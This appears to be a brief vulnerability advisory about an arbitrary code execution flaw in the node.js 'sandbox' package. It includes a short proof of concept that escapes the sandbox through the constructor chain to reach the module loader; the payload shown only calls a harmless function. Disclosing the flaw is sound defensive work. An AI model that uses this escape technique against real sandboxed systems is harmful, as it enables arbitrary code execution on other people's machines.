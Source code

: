 # Overview
sandbox is a nifty javascript sandbox for node.js.
Affected versions of the package are vulnerable to Arbitrary Code Execution. It is possible to escape the sandbox by using a combination of functions and constructors, allowing an attacker access to a process with root permissions, and load modules of their choosing in order to execute malicious code.

# Proof of Concept by io Void:
new Function("
  return (
    this.constructor.constructor('
      return (this.process.mainModule.constructor._load
     )'
    )())"
  )()
("util").inspect("hi")